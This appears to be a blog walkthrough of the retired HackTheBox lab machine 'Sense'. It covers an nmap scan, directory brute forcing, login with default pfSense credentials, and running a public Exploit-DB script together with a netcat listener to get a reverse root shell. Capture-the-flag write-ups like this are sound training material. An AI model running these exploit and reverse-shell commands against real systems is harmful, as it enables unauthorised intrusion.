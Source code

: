 ```yaml
--- 
draft: false
date: 2022-02-17T17:31:06+01:00
title: "Sense Walkthrough - Hackthebox"
description: "A walkthrough of hackthebox machines"
slug: ""
authors: ""
tags:
- Hackthebox
- Walkthrough
images:

  - url: 
    alt: 
categories: ""
externalLink: ""
series: ""
---
```

I'll be starting a blog series on HackTheBox retired machines, and this will be the first machine I'll be publishing a walkthrough on.

<!--more-->
### Why retired machines?
HackTheBox allows writeups or walkthroughs for retired machines only.

### Machine Info
Box Name  ⇒ Sense

IP  ⇒  10.10.10.60

OS  ⇒  FreeBSD

Let's fire up our VPN comrades, we're going on a ride!

### Recon
I started by running a Nmap scan to gather information about the open ports and services running on this machine.

```bash
nmap -A -T4 -p- 10.10.10.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-08 05:23 EST
Nmap scan report for 10.10.10.60
Host is up (0.36s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1561.11 seconds
```

Scan result tells me only port `80` and `443` are open. Fired it up in the browser and I got a pfsense login page.

![login page](login.png)

A quick google search for the default credentials revealed `admin:pfsense`, which unfortunately didn't work.

Next, I moved on to do a directory brute force using `dirbuster`

![dirbuster](dirbuster.png)

A couple of 200's, interesting! After going through some of the files, I found a `changelog.txt` and `system-users.txt` file. looked it up, contains juicy content.

Changelog.txt contains the following:


![changelo txt file](changelog.png)

System-users.txt contains the following

![system users txt file](system.png)

### Shell

The username `rohit` and the pfsense default password `pfsense` worked.

![dashboard](dash.png)

Most of the menus in the dropdown lead nowhere. The admin page contains a version number 

![version number](version.png)

I checked searchsploit to see if there's an available exploit and found a python exploit.

![exploit](exploit.png)

I download the exploit from exploidb, then set up a netcat listener.

netcat listener
```bash
nc -lnvp 9001
```
exploit
```bash
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 9001 --username rohit --password pfsense
```
Upon firing the exploit, I got a root shell

![root shell](shell.png)

Not a PTY shell, but I wanted to find out if I could grab the flags with my present shell.

found the user flag in the rohit directory

![user flag](user.png)

I also found the root flag in the root directory

![root flag](root.png)

Bye for now!